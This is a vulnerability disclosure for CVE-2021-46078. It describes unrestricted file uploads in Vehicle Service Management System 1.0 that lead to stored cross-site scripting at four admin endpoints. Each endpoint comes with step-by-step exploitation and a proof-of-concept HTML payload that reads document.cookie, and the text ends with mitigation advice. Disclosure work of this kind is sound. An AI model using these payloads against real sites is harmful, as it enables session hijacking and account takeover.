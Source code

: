 # CVE-2021-46078

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Stored Cross-Site Scripting
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46078
### CVSS: 4.8 MEDIUM
### References: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-stored-cross-site-scripting
- https://nvd.nist.gov/vuln/detail/CVE-2021-46078
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46078

### Description:
An Unrestricted File Upload vulnerability exists in Sourcecodester Vehicle Service Management System 1.0. A remote attacker can upload malicious files leading to a Stored Cross-Site Scripting vulnerability.

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In My Account Section enter all the required details and browse the html file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Malicious javascript code triggered.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Create New User Page enter all the required details and browse the html file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Malicious javascript code triggered.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Settings Section enter all the required details and browse the html file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Malicious javascript code triggered.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Payload:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Settings Section enter all the required details and browse the html file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Malicious javascript code triggered.

### Impact:
An attacker can able to upload malicious file in multiple endpoints it leads to Stored Cross-Site Scripting.

### Mitigation:
It is recommended to implement the following:
- Never accept a filename and its extension directly without having a white-list filter.
- If there is no need to have Unicode characters, it is highly recommended to only accept alpha-numeric characters and only one dot as an input for the file name and the extension.
- Limit the file size to a maximum value in order to prevent denial of service attacks.
- Uploaded directory should not have any "execute" permission.
- Don't rely on client-side validation only.
